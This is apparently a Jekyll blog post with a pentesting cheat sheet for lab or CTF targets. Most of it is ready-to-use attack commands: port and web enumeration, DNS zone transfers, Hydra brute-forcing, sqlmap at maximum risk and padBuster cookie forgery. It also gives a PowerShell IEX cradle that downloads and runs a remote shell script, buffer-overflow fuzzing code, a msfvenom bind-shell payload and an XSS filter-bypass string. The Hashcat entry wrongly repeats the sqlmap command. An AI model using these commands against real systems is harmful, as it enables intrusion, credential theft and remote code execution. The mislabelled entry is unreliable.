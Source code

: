 ```yaml
---
layout: post
title: Cheat Sheet
img: "assets/img/portfolio/cheatsheet.png"
date: April, 08 2014
tags: [Lorem]
---
```


![image]({{ site.baseurl }}/{{ page.img }})

# Enumeration


### Masscan (local) :

masscan -p1-65534 -rate=10000 -oG name.masscan 10.10.10.10


### Netdiscover :

netdiscover -i eth0


### Nmap :

nmap -A -p- -T4 -oA nmap/[name].xml 10.10.10.10
nmap --script=vuln -T4 -oA nmap/[name].xml 10.10.10.10
nmap -sC -sV

xsltproc *.xml -o *.html


### Nikto :

nikto -host 10.10.10.10[:8080] -output nikto.[name].txt


### DirSearch :

/opt/dirsearch/dirsearch.py -u http://10.10.10.10 -e asp,aspx,bat,c,cfm,cgi,com,dll,exe,htm,html,inc,jhtml,jsa,jsp,log,mdb,nsf,php,phtml,pl,reg,sh,shtml,sql,txt,xml,/,js -x 403,400 --json-report=[/path/]dirsearch.json

### Gobuster :

/opt/gobuster/gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.10 -o [name].log -t 25 [-k] [add / option] [-c (cat cookie.txt)]


### Dirb :

dirb http://10.10.10.10[:8080] -o dirb.[name].txt


### Wfuzz :

wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/megabeast.txt --hc 404,200 http://[ip:port]/FUZZ [ -b ‘cookie=value’ ] [ -w /usr/share/wordlist ]


# DNS


### Dig :

dig axfr @10.10.10.13 cronos.htb

### host :

host -t ns cronos.htb
host -t mx cronos.htb

### dnsrecon :

dnsrecon -d cronos.htb -t axfr


# Brute Force

### Hydra :

#### ssh :
hydra -L login.txt -P pass.txt [ -c file (user:pass format) ] ssh://10.10.10.10[:port]

#### http-form-post :
hydra [ip] -s [port] http-form-post "/index.php:password=^PASS^:F=Invalid\ password\!" -P [wordlist] -l '' {in this case no username -l ‘’} -t 10 -I

#### http-form-get :

#### smb :
hydra -l cristal -x 4:4:a 192.168.2.46 smb


### Sqlmap :
 sqlmap -r admin.cronos.req --level 5 --risk 3 --threads 10


### Hashcat :
 sqlmap -r admin.cronos.req --level 5 --risk 3 --threads 10



# Windows

### PowerShell :

#### use file from the internet :
IEX(New-Object Net.WebClient).downloadString(‘http://10.10.10.10:8080/shell.ps1’)

#### Privesc - MetaSploit :

search suggest
post/multi/recon/local_exploit_suggester
set SESSION 1
(powerup ?)

## Shell :

#### magic unicorn
https://www.youtube.com/watch?v=e9lVyFH7-4o


Database

Cookie :

padBuster :

perl padBuster.pl http://10.10.10.10/index.php uBIcLBJyjARxQ7ooer8gpdI4sSUCfulk 8 auth=uBIcLBJyjARxQ7ooer8gpdI4sSUCfulk -plaintext user=admin



Monitoring

Network :

netstat :

watch "netstat -an | grep 4001"

lsof :

watch "lsof -i 4001"


Buffer Overflow

Fuzzing :

#!/usr/bin/env python

import socket
import time

target_host = "127.0.0.1"
target_port = 4030

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((target_host, target_port))

for i in range(1,2000) :

    fuzz = "A" * i
    client.send(fuzz)
    response = client.recv(4096)

    print i
#    client.send("x\n")
#    response = client.recv(4096)

    time.sleep(0.1)

client.send("x\n")
response = client.recv(4096)

print response


Bad Characters :

#!/usr/bin/env python

shellcode = ''
for i in range(1,256):
    shellcode += chr(i)

print shellcode


Format String :

Shows 20 dwords from the stack :

for(( i=1; i < 20; i++)); do echo -n "$i " && ./fs "%$i\$x"; done

Use “%s” to retrieve strings instead :

for(( i=1; i < 20; i++)); do echo -n "$i " && ./fs "%$i\$s"; done


MSFVenom :

msfvenom -p linux/x86/shell_bind_tcp -b '\x00\x09\x10\x13' LPORT=4450 -f python






Unclassified

JS Prompt :

Filters bypass

<svg%0Ao%00nload=%09((pro\u006dpt))()//


Vim :

record macro :
q<letter><commands>q

execute macro :
<number>@<letter>

re execute macro :
@@

global switch :
:%s/item1/item2/g
